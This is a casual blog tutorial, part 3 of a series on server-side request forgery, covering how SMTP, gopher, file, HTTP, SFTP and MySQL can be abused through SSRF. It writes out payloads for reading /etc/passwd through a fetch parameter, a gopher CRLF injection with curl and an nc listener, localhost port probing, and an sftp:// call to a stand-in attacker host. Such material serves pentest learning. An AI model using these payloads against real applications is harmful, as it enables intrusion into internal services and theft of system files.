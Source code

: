 ```yaml
---
layout: post
published: true
title: Breaking the ssrf protocol Part:3
tags:
 -ssrf
 -web pentesting
 comments: true

---
```

# protocol and it's types
hey folks? what’s up hope you are well in pandemic First of all i want to apologize for writing article lately because i was busy in making project in python 3soon I will release my tool stay tuned I am not here to advertise my tool XD nor you to see my adverstisment. So in this section i will cover protocol exploitation with ssrf we can exploit protocols like gopher,http,mysql,intranet,smtpetc. to attack on web application and stealing data and abuse web application
This section and upcoming section gonne be on advance level of ssrf if you have any concept related to ssrf first clear it via previous two parts
before diving into the exploiting protocols let’s clear about basic definition and working of these protocol There are lots of protocols but as you know i hate long articles so i cover up only main protocols definition and rest of protocols i leave on you to resarch :)
Protocols And Its Types
Basically what are protocols? protocols are nothing it’s just a set of rules for exchanging data. There are many protocols available for transferring files(ftp), for mailing(smtp), for calling(voip) etc. are used since this article is on exploiting ssrf we will talk about those protocls which are abused by ssrf for exploiting web application

# Exploitation

let’s break these protocols with the help of ssrf ^_^
SMTP(simple mail transfer protocol)- for sending,receiving email
thanx to this guy we have a unique way for exploiting smtp
Probably an obvious SSRF trick for pros but I just figured out:)
```
1. cononnect with SSRF on smtp localhost:25
2 from the first line get the internal domain name 220 http://blabla.internaldomain.com ESMTP Sendmail
3 search http://internaldomain.com on github, find subdomains
4 connect
there are other various techniques for exploiting smtp like creating a payload and host it on server then send mail you can read awesome article
```

2. gopher -
as we all know gopher is very old protocols used for fetching files on webserver but it got very very old since its not used in wide number of applications but with ssrf we can exploit gopher and http as in previous article i said unsanitized data leads to file fetching but why the files are fetched?? just because of these protocols
Gopher exploitation is very vast we can exploit http,redis,telnet,ftp and many more here is a awesome tool which create payloads for these protocols. We can’t cover all gopher exploitation in this article because it won’t possible if i gonna cover it took very much time and article gonna long and long I will explain all exploitation techniques on gopher separately in next article In this article i will depict basic exploitation of gopher if you wanna learn advance level exploitation of gopher you can read it here
```
$gopher://<host>:<port>/<gopher-path>
$ curl gopher://localhost:2222/hello%0agopher

$ nc -lvvp 2222
listening on [any] 2222 …
connect to [127.0.0.1] from localhost [127.0.0.1] 34116
ello
gopher
```
that’s how we do the basic level exploitation of gopher with crlf (carriage return line and feed) we can use gopher to exploit mysql,redis,http,smtp and so on I will show and explain every techinque in Unique article dedicated to gopher exploitation

3.file://
basically it fetches files from external resources we can exploit it with replacing a file with our payload
**www.justfortest.com?php?fetch=file:///etc/passwd**
it will show content of /etc/passwd file which contains system id of admin and user

4.HTTP(hyper text transfer protocol)
I don’t think that it’s a topic of explain XD let’s come at exploitation
**www.justfortest.com?php?url=http://localhost:21**
it will fetch content of localhost to hacker

5.SFTP(secure file transfer protocol)
protocol used in sending files securely
**www.justfortest.com?url=sftp://evul.com:3333**

6.mysql
protocol used between mysqlclient and server
well, i can’t explain better then this read this article
That’s all for today i covered all various protocol for exploiting with the help of ssrf In next article i will do chaining of ssrf with critical and some low level bugs and if there is any mistake or i forgot to mention any important protocol then let me know in comments :)
